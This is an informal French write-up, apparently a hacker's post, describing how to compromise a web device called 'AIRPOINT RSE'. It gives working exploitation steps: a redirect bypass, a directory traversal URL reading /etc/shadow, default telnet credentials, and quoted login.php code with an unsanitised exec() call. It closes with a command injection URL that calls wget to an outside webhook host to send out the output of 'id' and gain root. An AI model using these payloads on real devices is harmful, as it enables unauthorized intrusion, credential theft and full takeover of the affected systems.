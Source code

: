 html:"AIRPOINT RSE"

encore une clownerie

302 bypass sur /Log.php qui permet de découvrir /download.php?file_down qui lui meme est vuln a des attaques de directory traversal.

Ah oui et le serv web tourne en root donc..

/download.php?file_down=../../../../../../etc/shadow  :)

ensuite on trouve les noms des user : ezboard et bien sur user as pass sur le telnet.. (ezboard:ezboard)

MAIS YA MIEU

---------------------------- login.php ----------------------------
<? require "cfg_cmd.php"; ?>

<?
    session_start();
    if( isset($HTTP_SESSION_VARS['login_name']) == false )
    {
        session_register("login_name");
    }
    $user_id = exec($cfg_read . "user_id");
    if( ($HTTP_SESSION_VARS['login_name'] != $user_id) )
    {
        if( isset($_GET['login_id']) )
        {
            $user_pw = exec($cfg_read . "user_pw");
            $input_id = $_GET['user_id'];
            $input_pw = $_GET['user_pw'];
            $input_pw = exec($cfg_aes_enc . $input_pw);
            if( ($user_id == $input_id) && ($user_pw == $input_pw) )
            {
                $HTTP_SESSION_VARS['login_name'] = $user_id;
                echo "OK";
            }
            else
            {
                echo "AUTH_FAIL";
            }
        }
        else
        {
            echo "FAIL";
        }
    }
    else
    {
        echo "OK";
    }
?>

------------------------------------------------------------------------------------

CA LA, CA, C'EST LE CODE DE LA PAGE DE LOGIN.. 

du coup bon ben /login.php?login_id=123&user_id=123&user_pw=$(wget%20http://webhook.site/xx/$(id))

voila on est root..


:clown_face::clown_face::clown_face::clown_face::clown_face::clown_face::clown_face: pouet pouet
